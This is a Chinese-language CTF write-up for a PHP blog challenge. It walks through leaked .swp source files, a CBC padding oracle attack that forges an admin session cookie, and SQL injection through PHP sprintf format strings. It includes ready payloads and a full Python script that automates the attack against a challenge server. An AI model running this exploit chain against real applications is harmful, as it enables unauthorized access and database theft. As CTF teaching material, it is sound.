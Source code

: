 ### 题目文件说明
```
web1.sql         //题目的数据库配置，导入完一定要删掉
config.php       //题目配置文件
index.php        //题目入口
login.php        //登录界面
.login.php.swp   //登录界面源码泄露文件
admin.php        //题目后台
.admin.php.swp   //题目后台源码泄露文件
css
js
img              //这三个文件夹都是前端的东西
```

### WriteUp

进入题目后可以知道这是一个博客系统，那猜测应该会有后台，扫一下目录或者猜一下可以知道存在`login.php, admin.php`两个文件，访问`admin.php`可以发现有权限控制，访问`login.php`是一个登录界面。

通过尝试可以发现如果随便输入账号密码的话页面返回是`Login failed.`，但是账号密码都输入`admin`的话会跳转到`admin.php`，猜测这里应该是弱口令，只是除了密码以外还有其他的验证方式。

如果扫描字典够强大的话可以扫到`login.php, admin.php`都存在备份文件：`.login.php.swp, .admin.php.swp`

下载备份文件`.login.php.swp`得到源码，源码关键的部分：

```
function get_identity(){
	global $id;
    $token = get_random_token();
    $c = openssl_encrypt($id, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $token);
    $_SESSION['id'] = base64_encode($c);
    setcookie("token", base64_encode($token));
    if($id==='admin'){
    	$_SESSION['isadmin'] = 1;
    }else{
    	$_SESSION['isadmin'] = 0;
    }
}

function test_identity(){
    if (isset($_SESSION['id'])) {
        $c = base64_decode($_SESSION['id']);
        $token = base64_decode($_COOKIE["token"]);
        if($u = openssl_decrypt($c, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $token)){
            if ($u === 'admin') {
                $_SESSION['isadmin'] = 1;
                return 1;
            }
        }else{
            die("Error!");
        } 
    }
    return 0;
}
```
可以看到在session中也做了身份验证，但是由于加密模式是`aes-128-cbc`，且`$token`在cookie里，可控，所以这里可以进行**Pading Oracle Attack**，通过修改`$token`可以把`$_SESSION['isadmin']`改为1（如果不清楚**Pading Oracle Attack**的原理的话可以看一下我写过的一篇[博客](http://f1sh.site/2017/08/04/%E5%88%9D%E5%AD%A6padding-oracle-attack/)），这样就成功登录进了`admin.php`。

通过下载`.admin.php.swp`可以得到`admin.php`的源码，发现里面存在数据库操作
```
if(isset($_GET['id'])){
	$id = mysql_real_escape_string($_GET['id']);
	if(isset($_GET['title'])){
		$title = mysql_real_escape_string($_GET['title']);
		$title = sprintf("AND title='%s'", $title);
	}else{
		$title = '';
	}
	$sql = sprintf("SELECT * FROM article WHERE id='%s' $title", $id);
	$result = mysql_query($sql,$con);
	$row = mysql_fetch_array($result);
	if(isset($row['title'])&&isset($row['content'])){
		echo "<h1>".$row['title']."</h1><br>".$row['content'];
		die();
	}else{
		die("This article does not exist.");
	}
```
乍看之下似乎有`mysql_real_escape_string()`所以无法进行注入，但实际上这里可以利用PHP格式化字符串的漏洞。

在PHP的`sprintf`这个函数中`%\`会被当成一个格式化字符串，如图
![](https://i.imgur.com/cSXxM1a.jpg)
可以看到`%\`和`%y`一样被当做了一个不存在的类型的格式化字符串，所以输出为空

所以利用这个原理，我们可以传入`title=%' or 1#`，此时因为`mysql_real_escape_string()`的存在单引号前会被加上一个`\`，那么最后拼接到语句里就是
```
sprintf("SELECT * FROM article WHERE id='%s' AND title='%\' or 1#'", $id);
```
这样`%`就会吃掉后面的`\`组成一个格式化字符串，单引号就成功逃逸了出来。

但是只是这样的话还是会报错参数不足，因为这条代码里有两个格式化字符串但是只有一个参数。不过PHP的格式化字符串还有另一种表示方法`%1$s`，其中`%`后面的数字就表示引用第几个参数，`$`后面是格式化字符串的类型，如图
![](https://i.imgur.com/zIM5IBA.jpg)

所以我们传入`title=%1$' or 1#`，经过转义最后拼接到语句里就是
```
sprintf("SELECT * FROM article WHERE id='%s' AND title='%1$\' or 1#'", $id);
```
这样title那里引用的也是第一个参数`$id`，就不会报参数不足的错了

具体的原理可以看[这篇文章](https://paper.seebug.org/386/)

所以最终SQL注入的payload就是：`?id=0&title=%251%24'%20union%20select%201%2C2%2C3%23`

整个题目可由一个脚本跑出最终flag：
```
#-*- coding:utf-8 -*-

import requests
import base64

url = 'http://47.95.219.135:8300/login.php'
N = 16

def inject_token(token):
    cookie = {"token": token}
    result = s.get(url, cookies = cookie)
    return result

def xor(a, b):
    return "".join([chr(ord(a[i]) ^ ord(b[i%len(b)])) for i in xrange(len(a))])

def pad(string, N):
    l = len(string)
    if l != N:
        return string + chr(N-l) * (N-l)

def padding_oracle(N):
    get = ""
    for i in xrange(1, N):
        for j in xrange(0, 256):
            padding = xor(get, chr(i) * (i - 1))
            c=chr(0) * (16 - i) + chr(j) + padding
            print c.encode('hex')
            result = inject_token(base64.b64encode(c))
            if "<html>" in result.content:
                print result.content
                get = chr(j^i) + get
                break
    return get

data={'username': "admin", 'password': 'admin'}
while 1:
    s = requests.session()
    cookies = s.post(url, data = data, allow_redirects = False).headers['Set-Cookie'].split(',') #获得session和token
    session = cookies[0].split(";")[0][10:]
    token = cookies[1][6:].replace("%3D",'=').replace("%2F",'/').replace("%2B",'+').decode('base64')
    middle1 = padding_oracle(N)
    print "\n"
    if(len(middle1) + 1 == 16):
        for i in xrange(0, 256):
            middle = chr(i) + middle1   #padding_oracle只能得到15位，爆破第一位
            print "session: " + session
            print "token: " + token
            print "middle: " + base64.b64encode(middle)
            plaintext = xor(middle, token);
            print "plaintext: " + plaintext
            des = pad('admin', N)
            tmp = ""
            print "padtext: " + base64.b64encode(des)
            for i in xrange(16):
                tmp += chr(ord(token[i]) ^ ord(plaintext[i]) ^ ord(des[i]))
            print "inject_token: " + base64.b64encode(tmp)
            result = inject_token(base64.b64encode(tmp))
            if "css/login.css" not in result.content:
                #payload = "%1$' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#"  #注表名
                #payload = "%1$' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x4b4559#"    #注列名
                payload = "%1$' union select 1,2,f14g from `key`#" #注字段
                params = {'id': '0', 'title': payload}
                r = s.get("http://47.95.219.135:8300/admin.php", params = params)
                print r.content
                print "success"
                exit()
```
注入时也有一个小坑，`key`这个表名是MYSQL保留字，我们把它当做表名带入查询时必须用反引号包起来，不然就会报语法错误而返回不了我们想要的结果。
